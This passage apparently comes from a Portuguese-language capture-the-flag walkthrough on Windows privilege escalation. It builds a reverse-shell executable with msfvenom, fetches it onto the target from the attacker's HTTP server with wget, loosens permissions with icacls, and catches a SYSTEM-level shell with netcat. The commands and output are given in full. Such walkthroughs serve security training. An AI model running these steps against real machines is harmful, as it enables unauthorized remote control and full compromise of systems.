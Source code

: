 Onde temos:

- `-p`: especifica o payload
- `windows/x64/shell_reverse_tcp`: payload reverso de shell do Windows x64
- `LHOST`: endereço IP do atacante
- `LPORT`: porta do atacante
- `-f`: especifica o formato do arquivo de saída
- `-o`: nome do arquivo de saída

Note que o nome do arquivo de saída é `Devservice.exe`, que é o mesmo nome do executável do serviço. Isso é importante, pois o Windows irá executar o arquivo malicioso em vez do executável original.

Agora precisamos enviar o executável malicioso para o diretório `c:\program files\development files\` e para isso iremos utilizar um servidor http python.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         00:51:27
╰──➤ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

e na maquina alvo vamos baixar o arquivo utilizando o `curl`

```cmd
PS C:\Users\Sage\Desktop> wget http://10.18.20.23:80/Devservice.exe -o "c:\program files\development files\Devservice.exe"
```

`icacls` pode ser usado para alterar as permissões de arquivo do executável para permitir acesso total a todos:

```powershell
PS C:\Users\Sage\Desktop> icacls "C:\Program Files\Development Files\Devservice.exe" /grant Everyone:F
processed file: C:\Program Files\Development Files\Devservice.exe
Successfully processed 1 files; Failed processing 0 files
```

Agora basta reiniciar a maquina alvo e o serviço malicioso será executado com as permissões do usuário `LocalSystem`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           00:59:11
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.1.242] 49670
Microsoft Windows [Version 10.0.17763.3165]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

---